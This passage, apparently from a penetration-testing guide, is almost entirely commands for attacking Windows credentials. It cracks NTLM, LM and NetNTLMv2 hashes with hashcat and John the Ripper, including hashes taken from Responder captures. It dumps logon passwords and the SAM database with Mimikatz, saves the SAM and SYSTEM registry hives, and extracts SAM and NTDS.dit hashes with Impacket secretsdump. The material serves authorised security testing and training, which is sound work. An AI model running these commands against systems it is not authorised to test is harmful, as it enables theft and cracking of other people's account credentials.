 Windows systems use various authentication mechanisms with different hash formats.

**NTLM Hash Cracking**
```bash
# Hashcat NTLM mode: 1000
hashcat -m 1000 -a 0 ntlm_hashes.txt rockyou.txt

# John the Ripper NTLM
john --format=NT ntlm_hashes.txt

# NTLM with rules
hashcat -m 1000 -a 0 ntlm_hashes.txt rockyou.txt -r best64.rule
```

**LM Hash Characteristics**
- Maximum 14 characters
- Case insensitive
- Split into two 7-character halves
- Weak DES-based encryption

```bash
# Hashcat LM mode: 3000
hashcat -m 3000 -a 3 lm_hashes.txt ?a?a?a?a?a?a?a

# John the Ripper LM
john --format=LM lm_hashes.txt
```

**NetNTLMv2 Challenge-Response**
```bash
# Format: username::domain:challenge:response
# Hashcat mode: 5600
hashcat -m 5600 -a 0 netntlmv2.txt rockyou.txt

# From Responder captures
hashcat -m 5600 -a 0 Responder-Session.txt rockyou.txt
```

### 3.3 Hash Extraction Techniques

**Windows Hash Extraction**
```bash
# Mimikatz - extract from memory
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Extract SAM database
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

# Registry extraction
reg save HKLM\SAM sam.hive
reg save HKLM\SYSTEM system.hive

# Impacket secretsdump
python3 secretsdump.py -sam sam.hive -system system.hive LOCAL

# Domain Controller NTDS.dit
python3 secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```
